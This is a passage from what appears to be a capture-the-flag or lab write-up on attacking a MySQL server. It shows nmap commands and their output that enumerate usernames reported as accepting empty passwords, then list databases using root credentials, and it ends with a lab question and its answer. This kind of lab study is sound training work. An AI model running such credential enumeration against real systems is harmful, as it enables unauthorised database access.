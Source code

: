 run exploit with `show databases`

### Manual/non-Metasploit enumeration

mysql enumeration
```
$ nmap --script=mysql-enum 10.10.42.24
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 15:22 GMT
Nmap scan report for 10.10.42.24
Host is up (0.010s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0

Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
```
show databases
```
$ nmap --script=mysql-databases --script-args=mysqluser=root,mysqlpass=password 10.10.42.24
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 15:32 GMT
Nmap scan report for 10.10.42.24
Host is up (0.0096s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql
| mysql-databases: 
|   information_schema
|   mysql
|   performance_schema
|_  sys

Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
```

Questions:

What port is MySQL running on?
3306
